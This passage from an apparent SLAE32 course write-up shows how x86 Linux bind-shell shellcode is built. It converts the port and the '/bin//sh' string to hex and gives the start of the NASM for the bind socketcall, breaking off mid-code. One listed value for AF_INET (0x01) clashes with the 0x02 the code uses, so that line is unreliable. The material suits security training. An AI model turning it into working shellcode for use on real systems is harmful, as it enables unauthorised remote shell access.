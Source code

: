 to get the system call number on Ubuntu x86
{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/bind$ grep SYS_BIND /usr/include/linux/net.h
#define SYS_BIND        2               /* sys_bind(2)   */
{% endhighlight %}

convert the port number into hex and then reversed for network byte order.
{% highlight console %}
# to get the port number in hex
kecebong@ubuntu:~/slae32/assigment/bind$ python
>>> port=8443
>>> s="%04X" % (port)
>>> print "0x" + "".join(map(str.__add__, s[-2::-2], s[-1::-2])).lower()
0xfb20
>>>

# to get the "/bin//sh" string into hex
kecebong@ubuntu:~/slae32/assigment/bind$ python
>>> shell="/bin//sh"
>>> print "0x" + shell[::-1][4:].encode('hex')
0x6e69622f
>>> print "0x" + shell[::-1][:4].encode('hex')
0x68732f2f
>>>
{% endhighlight %}

so for this `bind` system call we need three registers:
- EAX : `socketcall` (0x66)
- EBX : `SYS_BIND` (0x02)
- ECX : `(int sockfd, const struct sockaddr *addr, socklen_t addrlen)`
    - `sockfd` : the socket fd returned from previous `socket` function
    - `struct sockaddr`: 
        - `sin_family` : `AF_INET` (0x01)
        - `sin_port`   : 8443 (convert to hex in network byte order 0xfb20)
        - `sin_addr`   : `INADDR_ANY` (bound to all local interfaces 0.0.0.0)
    - `socklen_t addrlen` : default is 16 (0x10)

and the following is the assembly code:

{% highlight nasm linenos %}
bind:
    ; Bind a name to a socket
    ;
    ; eax = socketcall 0x66
    ; ebx = SYS_BIND 0x02
    ; ecx = args = esp
    push byte 0x66      ; socketcall = 102 ~ 0x66
    pop eax
    push byte 0x02      ; SYS_BIND = 2 ~ 0x02
    pop ebx

    ; struct sockaddr_in
    ; 
    ; stack:
    ;   ecx => esp 
    ;   0x02    - AF_INET
    ;   0xfb20  - port 8443
    ;   0x00    - INADDR_ANY
    push edx            ; INADDR_ANY = 0.0.0.0
    push word 0xfb20    ; PORT 8443  ~ 0x20fb - in reverse network byte order 0xfb20
    push bx             ; AF_INET = 2 ~ 0x02
    mov ecx, esp        ; point the ecx to the top of stack esp
